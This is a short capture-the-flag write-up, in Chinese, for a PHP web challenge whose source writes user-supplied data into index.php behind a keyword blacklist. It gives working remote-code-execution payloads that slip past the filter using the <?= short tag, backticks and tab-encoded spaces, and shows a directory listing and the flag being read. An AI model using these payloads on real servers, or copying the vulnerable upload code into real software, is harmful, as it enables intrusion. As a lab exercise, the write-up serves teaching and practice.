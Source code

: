 ![](<./img/Pasted image 20230105095843.png>)

---
```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

`php`被过滤，使用`php`的`echo`标记简写`<?=`绕过

由于反引号`` ` ``没有被过滤，使用反引号来执行`shell`命令

空格被过滤，使用水平制表符`%09`代替

```php
/?action=pwd
```

```
sandbox/xxx/
```

```php
/?action=upload&data=<?=`ls%09/`?>
```

```php
/sandbox/xxx/
```

```
bin boot dev etc flllllll1112222222lag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 
```

```php
/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

```php
/sandbox/xxx/
```

```
flag{7fb04787-f42b-4b09-aceb-101738202f79} 
```

#Web #PHP #shell #bypass #RCE